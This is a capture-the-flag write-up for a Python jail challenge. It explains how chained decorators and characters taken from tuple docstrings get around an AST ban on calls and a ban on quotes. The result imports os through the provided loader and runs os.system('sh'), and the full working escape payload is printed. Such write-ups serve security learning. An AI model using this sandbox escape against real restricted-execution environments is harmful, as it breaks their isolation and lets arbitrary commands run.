

## Ergastalum  



The challenge involves a Pyjail that checks our payload against a whitelist and a custom AST.  

Our payload is run against an `exec()` call with empty `__builtins__`, but we are provided with a default module loader.  

```python
buf=[]
for line in sys.stdin:
    if line.startswith('end'): break
    buf.append(line)
src=''.join(buf)
tree=compile(src,'','exec',flags=ast.PyCF_ONLY_AST)
if verify(tree, src):
    exec(compile(src,'','exec'),
         {'__builtins__':{},
          '__loader__':_frozen_importlib.BuiltinImporter})
```

The whitelist pretty much doesn't restrict anything useful, so we don't have to worry about that.  

As for the AST, it blocks imports, explicit function calls and block statements (`if`, `try`, `while`, `for`).  

```python
ALLOWED=set(string.ascii_lowercase+string.digits+'()[]: ._@\n')
BANNED=(ast.Import,ast.ImportFrom,ast.Call,ast.If,ast.Try,ast.While,ast.For,ast.Return,ast.Pass)

def verify(tree, s):
    if not isinstance(s,str):
        print('error:type str');return False
    bad=set(s)-ALLOWED
    if bad:
        print('error:charset',''.join(sorted(bad)));return False
    stack=[]
    for c in s:
        if c=='[': stack.append(0)
        elif c==']':
            if not stack: print('error:brackets ]');return False
            stack.pop()
        elif c==':' and stack:
            stack[-1]+=1
            if stack[-1]>1: print('error:slice :>1');return False
    if stack:
        print('error:brackets [');return False
    for n in ast.walk(tree):
        if isinstance(n, BANNED):
            print(f'error:ast banned {type(n).__name__}')
            return False
    return True
```

I say "explicit" because in Python, you can actually invoke functions through decorators, and the AST won't flag it as `ast.Call`.  

The fact that we are allowed to send mutli-line inputs and `@` being in the whitelist clearly points towards us having to use decorator chaining.  

We can thus craft a simple payload that gives uses `__loader__` to import `os`, then calls `sh` to pop a shell.  

```python
# os.system
@(lambda x: x.system)
@__loader__.load_module
@(lambda _: "os")
def a():
    ...

# os.system("sh")
@a
@(lambda _: "sh")
def b():
    ...
```

However, we might notice that quotes aren't in the whitelist, so we can't directly hardcode the strings in the payload.  

Luckily, we can get characters from the tuple documentation using `().__doc__`, then use the `str` method `__add__()` to concatenate the characters.  

```python
# "os"
@().__doc__[34].__add__
@(lambda _: ().__doc__[19])
def os():
    ...

# "sh"
@().__doc__[19].__add__
@(lambda _: ().__doc__[56])
def sh():
    ...
```

This gives us our final payload, which we can send to the challenge server to get a shell. This will reveal `flag.txt` in the current directory.    

```python
@().__doc__[34].__add__
@(lambda _: ().__doc__[19])
def os():
    ...

@().__doc__[19].__add__
@(lambda _: ().__doc__[56])
def sh():
    ...

@(lambda x: x.system)
@__loader__.load_module
@(lambda _: os)
def a():
    ...

@a
@(lambda _: sh)
def b():
    ...
```

Flag: `0xL4ugh{1_t0ld_y0u_N0_m3rcyyyyyy_477773da9ac88c56}`